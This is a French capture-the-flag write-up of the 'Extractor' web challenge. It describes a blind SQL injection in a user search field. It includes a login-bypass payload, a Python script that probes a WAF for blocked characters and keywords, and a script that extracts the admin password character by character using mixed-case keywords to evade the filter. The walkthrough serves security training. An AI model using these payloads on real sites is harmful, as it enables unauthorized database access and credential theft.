

# Extractor 

* type: Web
* points : 500
* auteur : [Marwane Azzouzi aka \_marwanee\_](https://www.linkedin.com/in/marwane-azzouzi1) 

---

## Synopsis
Lors de notre enquête approfondie sur les agissements d’une organisation criminelle, nos experts ont réussi à sécuriser une base de données particulièrement précieuse.

Votre mission, si vous l'acceptez, est de pénétrer cette base de données et d'exfiltrer les informations critiques.

Format du flag: SHLK{[a-zA-Z0-9_]}

http://challenges.shutlock.fr:50000

## Premier contact

La première des politesses est d'aller saluer sa future victime, et nous arrivons sur une page web à la Matrix's style avec trois champs possible pour une injection SQL.

## Tries and fails

Premier réflex dans ce genre d'exercice, c'est de tenter un bypass dans les champs du login, on ne sais jamais, un jour un simple ```admin' OR True -- - # ``` payer, mais malheureusement, pas aujourd'hui.

Donc on va jouer un peu avec le champs de recherche des utilisateurs, et comme d'habitude, mon réflexe est de chercher pour l'utilisateur **admin** (tant qu'a récupérer des droits, autant avoir ceux de dieux !).

Le site nous gratifie d'un magnifique "Found 1 result", je sens arriver la bind SQLi arriver à grand pas !

Là où je suis plus circonspect, c'est que si je tapes uniquement "a" dans la recherche il me répond oui, serions nous dans une requête du genre :

```sql
select * from users where username like %; 
```

Cela serait une grande première pour moi, pour le vérifier, je vais passer "b" et "d" dans la zone de recherche, et sans grand surprise "d" est positif alors que "b" non. On peut faire notre Maurice et pousser le bouchon un peu plus loin en essayant "ab" et "ad". Je vous laisse deviner lequel remonte le "Found 1 result".

On peut ~~perdre du temps~~ jouer un peu avec notre cible et créer un script en python pour tenter d'exfiltrer les usernames, mais il va nous manquer une information capitale, le mot de passe.

## You know nothing John Snow !

Maintenant que nous avons notre champ d'injection potentielle, nous allons devoir tester un peu tout cela. On tente une petite SQLi de base, et la **PAF**, c'est le drame, le site web nous retourne un 403 (Forbiden). Et mercredi ! ils  ont implémenté un pseudo WAF dans l'exercice

Bon, on va donc essayer de trouver la liste des verbes SQL autorisé pour l'injection

```python
def test():
    alphabet = string.printable
    OK = []
    NOK = []
    SQL = [
        "select",
        "SeLEct",
        "where",
        "union",
        "unIon",
        "and",
        "aNd",
        "or",
        "Or",
        "substring",
        "substr",
        "suBstr",
        "like",
        "by",
        "asc",
        "desc",
        "from",
        "having",
        "||",
        "&&",
    ]
    for car in alphabet:
        # reponse = r.get(url + ":" + str(port) + uri + module + f"{car}")
        reponse = r.get(f"{url}:{port}{uri}{module}{car}")
        print(f"testing {car}", end="\r")
        if reponse.status_code == 200:
            OK += car
        else:
            nok += car

    if alphabet == OK:
        p.success("il n'y a aucune restriction")
    else:
        p.warn(f"attention, uniquement la liste suivante est refusée {NOK}")

    OK = []
    NOK = []
    for verbe in SQL:
        reponse = r.get(f"{url}:{port}{uri}{module}{verbe}")
        print(f"testing {verbe}", end="\r")
        if reponse.status_code == 200:
            OK += [verbe]
        else:
            NOK += [verbe]
    if NOK:
        p.warn(f"attention, les verbes suivants sont interdit: {NOK!s}")
```

Ce petit bout de code va tester deux choses:

* Il y a-t-il des caractères interdit dans les caractères imprimable
* Il y a-t-il des verbes SQL interdit

Et on trouve que les caractères """ et ";" sont interdit, ainsi qu'un grand nombre de verbre, mais certain le sont uniquement en minuscule, et les versions alternative passent (en mélangeant la casse)

Nous allons donc exploiter cela dans notre injection

```python
def main():
    password = ""
    inc = 1
    loop = True
    while loop:
        count = 0
        for car in alphabet:
            print(f"testing {password}{car}", end="\r")
            reponse = r.get(
                f"{url}:{port}{uri}{module}xxxxx%25'+oR+subStr(passWorD,{inc},1)='{car}'+oR+'x'='xx"
            )
            if str("Found 1 result") in reponse.text:
                password += car
                inc += 1
                count = 0
            count += 1

            if count == len(alphabet):
                print(f"{password=!s}")
                loop = False
            else:
                continue
```

Nous allons lui passer notre injection et nous allons essayer de de récupérer le mot de passe un caractère à la fois.

### Exploit en action

[](https://asciinema.org/a/fmbzkYl2oU2kRNr4LAs7Ee8pp)

## Flag me to the moon !

Une fois le mot de passe récupéré, nous allons pouvoir nous log en tant qu'admin



